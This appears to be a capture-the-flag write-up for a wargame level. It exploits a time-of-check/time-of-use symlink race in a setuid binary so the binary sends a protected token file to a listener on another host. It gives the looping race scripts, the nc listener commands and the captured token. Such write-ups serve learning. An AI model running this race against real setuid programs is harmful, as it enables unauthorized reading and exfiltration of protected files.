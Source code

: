     
In this level, we have an executable which will send a file to a remote host.
    ls -l
    
            -rwsr-s---+ 1 flag10 level10 8617 Mar  5  2016 level10
            -rw-------  1 flag10 flag10    26 Mar  5  2016 token

We can create a symlink to try to read the content in token file (symlink race)

    ln -s /home/user/level10/token /tmp/flag

Now let's try to send my file to the server

    ./level10 /tmp/flag 192.168.56.101
        You don't have access to /tmp/flag
    cat /tmp/flag
            cat: /tmp/flag: Permission denied

Nope, still unable to execute my flag and to send it to a server

To open a port in your machine:
    nc -l 6969

let's get the executable to my host with scp

    scp -P 4242 level10@192.168.56.101:/tmp/flag /mnt/nfs/homes/emaugale/Desktop

So you have to find a way to make your file accessible to the server.

when we use ltrace, we can see that the executable will first try to access our file, and after that, reading the content of the file.
    -> Do a /tmp/flag file with nothing on int
    when it will be access, we can delete it and recreate one which will be a symlink to the token file
    launch our server and print the result  

        while true;
            do
            touch /tmp/link
            rm -f /tmp/link
            ln -s /home/user/level10/token /tmp/link
            rm -f /tmp/link
            done


        while true;
        do
        /home/user/level10/level10 /tmp/link 192.168.56.101 2> /dev/null
        done


bash /tmp/script1.sh & bash /tmp/script2.sh

Check flag.Here is your token : feulo4b72j7edeahuete3no7c
